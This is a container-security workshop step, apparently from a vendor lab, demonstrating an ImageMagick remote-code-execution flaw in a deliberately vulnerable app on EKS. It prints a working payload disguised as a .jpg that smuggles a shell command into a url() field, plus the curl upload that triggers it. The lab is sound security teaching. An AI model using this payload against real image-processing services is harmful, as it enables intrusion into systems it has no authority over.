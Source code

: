 +++
title = "Step 4: Exploit a Container Vulnerability"
chapter = false
weight = 21
+++

## Exploit a Container Vulnerability

Putting an application into a container does not automatically make it secure. To demonstrate the risks of a vulnerable component introduced by our container base image, we will exploit a vulnerability in the ImageMagick package present in one of the pods of our running application on EKS.

## Check the application container's home directory

### List the current files in the container's home directory

First we will get a file directory listing for the container running in that pod by executing the following command:
```bash
kubectl exec -it $(kubectl get pod -l app=goof-image,tier=frontend -o name) -- ls 
```

You should see the file listing of the goof-image container's home directory as follows:
```bash
CODEOWNERS  README.md  node_modules	  package.json	server.js
Dockerfile  exploits   package-lock.json  public	uploads
```

## Exploit a remote code execution vulnerability

In your Cloud9 terminal run the following:
```bash
cat image-app/exploits/rce1.jpg
```

Even though that file has a `.jpg` extension in it's name, it is actually a script:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|touch "rce1)'
pop graphic-context
```
Take special notice to the `"|touch "rce1` part of the next-to-last line.

Now, run the following:
```bash
curl -F 'twitter_picture=@image-app/exploits/rce1.jpg' http://$GOOF_IMAGE_LB:3112/upload/
```

All we see coming back is this:
```
Found. Redirecting to /public/result.html
```

But let's check the container's filesystem again:
```bash
kubectl exec -it $(kubectl get pod -l app=goof-image,tier=frontend -o name) -- ls 
```

```bash
CODEOWNERS  README.md  node_modules	  package.json	rce1	   uploads
Dockerfile  exploits   package-lock.json  public	server.js
```
Now we see an additional `rce1` file has been created!

## The impact of this vulnerability
The creation of an empty file may not seem that severe but realize that any command availabile in that container could be used in place of the `touch` command used here.  This includes things like `wget`, `curl` and `apt-get`.  It would not be hard to craft an exploit that pulls a shell script from an internet site and runs whatever is in it, giving the hacker a beachhead in your cluster to operate from.

Continue to the next step to learn how to identify these, and other, vulnerabilities in your container images that are introduced by your container base image.

